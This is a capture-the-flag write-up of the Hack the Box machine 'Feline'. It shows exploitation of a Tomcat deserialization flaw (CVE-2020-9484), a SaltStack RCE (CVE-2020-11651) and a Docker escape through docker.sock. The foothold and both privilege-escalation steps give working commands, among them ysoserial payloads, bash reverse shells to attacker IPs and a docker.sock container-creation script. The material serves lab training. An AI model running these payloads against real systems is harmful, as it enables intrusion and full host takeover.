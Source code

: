 # Hack the Box - Feline


<div style="text-align:center">Write-up of Feline - Difficulty : Hard </div>
<!--more-->
>Better to live one year as a tiger, then a hundred as sheep.  
>  
>-Madonna Ciccone  


{{< admonition type=bug title="" open=true >}}
Hack the Box was having problems and I had to reset my VPN connection halfway through.  
The IP addresses for my parrot box and for Feline change but it should still be easy to follow along.
{{</admonition>}}

## 1. Overview

Feline is another Linux box running a simple website.  
There is an upload deserialization vulnerability that leads to remote code execution.  
A local port is running an out of date, exploitable version of Saltstack.  
A to-do list was left in the docker root's home directory that referenced docker.sock.  
Escaping from the docker container using docker.sock allowed us to gain root access on the box.


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22 and 8080 are open.
There appears to be a website called VirusBucket being hosted by Apache on port 8080. Apache is also out of date.

``` bash 
 nmap -sC -sV -T4 10.129.105.79
```

![nmap](nmap.png)


### 2.2 Website
#### 2.2.1 VirusBucket

Next we'll go check out what sites those webservers are hosting.

If we open our browser and go to 10.129.105.79:8080 which brings us to the front page of the **VirusBucket** website

![VirusBucket](virusbucket.png)

After we do some poking around we wind up on **/service/** where the website allows us to upload files to be *analyzed.* After which the website says it will email us with a generated report.

![upload](vbupload.png)

The website allows us to upload pretty much anything, but to really see what's going on we need to open up Burp and set Firefox to use it as our proxy.  After uploading a few documents and messing with the parameters we found out that if you change the file name to a single period and you'll get a useful error.

![burp](burpdirectory.png)

Looks like the files are being uploaded into **/opt/samples/uploads/**. If we take a look at the rest of the error message we can see some sort of java deserialization going on.
If we do a bit of googling we wind up at [CVE-2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484) which is a Tomcat deserialization vulnerability which allows for remote code execution (RCE).

## 3. Foothold

If we take a look at this [write-up](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) explaining the exploit by RedTimmy.
If you don't already have [ysoserial](https://github.com/frohoff/ysoserial) installed you're going to need it. 
```bash
echo "bash -i >& /dev/tcp/10.10.14.56/1234 0>&1" |base64
$payload="bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni8xMjM0IDA+JjEK}|{base64,-d}|{bash,-i}"
java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 "${payload}" > hcky.session
```
![ysoserial](session.png)

All we have to do next is upload it with a simple curl command to the same location we saw with Burp.

```bash
curl -F 'image=@hcky.session' http://10.129.105.79:8080/upload.jsp
```
![upload](fileupload2.png)

And then call that file we just uploaded by putting the path to the file in the **JSESSIONID** while we have our netcat listener running. As soon as we send the next curl command we should get a callback and a shell.

![foothold](foothold.png)

Thankfully it turns out that the account that we got a shell as is the user Tomcat and he has read access to the user.txt flag in his **/home/** directory.

![tomcathome](tomcathome.png)
 
## 4. Privilege Escalation
{{< admonition type=info title="" open=true >}}
This is where the IP changed to 10.129.100.82 for Feline and 10.10.14.101 for my Parrot box.
{{</admonition>}}

After doing some manual enumeration nothing major seemed to pop out at us.  
Part of the process should always be checking what ports are listening on the box so we run a **netstat -ant** and see what comes up.

![ports](ports.png)

Looks like there's something listening on ports **4505/4506**.

After some googling we found that this is **Saltstack** which had a recent RCE vulnerability recently advertised as [CVE-2020-11651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11651) and there's even a PoC exploit available on Github written by [jasperla](https://github.com/jasperla/CVE-2020-11651-poc)
You'll need to clone the repo and possible install [Salt](https://docs.saltproject.io/en/latest/topics/installation/debian.html) if you don't have it installed already.

Since the ports are only listening locally we decided to use [chisel](https://github.com/jpillora/chisel.git) to do some port forwarding and gain access to port **4506** of Feline like we were running locally.  We served out the chisel file with **python3 -m http.server** and grabbed it as the tomcat user. Next we started the chisel client and server.

```
FELINE-
./chisel client 10.10.14.101:4242 R:4506:127.0.0.1:4506

ATTACKBOX
chisel server -p 4242 --reverse
```

![chisel](chisel.png)

Now that we have chisel connected all we have to do is start our netcat listener and run the **exploit.py** that we cloned earlier.

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.101/1234 0>&1"'
```
![chisel2](chisel2.png)

Just like that we have root, well... a root.

### 4.1 Privesc Round 2

So as we can tell, we have root, but it's inside a docker container. After some enumeration we wound up finding a **todo.txt** and some commands in **.bash_history** in root's home directory.

![bashhist](bashhist.png)

We can see that a few commands were run regarding **docker.sock**

After some more googling we wind up with an article relating to taking over with **docker.sock** by [Dejan Zelic](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) as well as the regular Docker [documentation](https://docs.docker.com/engine/api/v1.37/#operation/ContainerCreate) for some sanity checks.
This **simple-exec-with-docker-remote-ip.sh** script by [dapplebeforedawn](https://gist.github.com/dapplebeforedawn/7733a6486f02d21f68053c0c1e43431f) was also useful.

A simple script will get us what we need.
```bash
exploit="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"bash -c 'bash -i >& /dev/tcp/10.10.14.101/2345 0>&1'\\\"\"]"
docker=$(curl -s -X POST --unix-socket /var/run/docker.sock --data-binary "{\"Image\":\"sandbox\",\"cmd\":$exploit, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
ID=$(echo "$docker" | cut -d'"' -f4)
curl --silent -X POST --unix-socket /var/run/docker.sock http://localhost/containers/$ID/start
sleep 5
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/$ID/logs?stderr=1&stdout=1"
```
What this should do is create a container, mount the root directory of the host system, start the containter, and then execute the reverse shell that we put in there, giving us a reverse shell on the host machine as root. 
 
We host the script with another python http server and pull it to Feline.  
So we start another netcat listener on an unused port with **nc -lvnp 2345** and run our script.  
As soon as we run the script we should get a shell as root.

![root](roottxt.png)




## Conclusion

1. Update your software. The exploits used for foothold and the first root were due to outdated software with known exploits.
2. Know the risks of exposing the docker.sock file.  Accept or mitigate as your organization deems necessary.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="http://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>

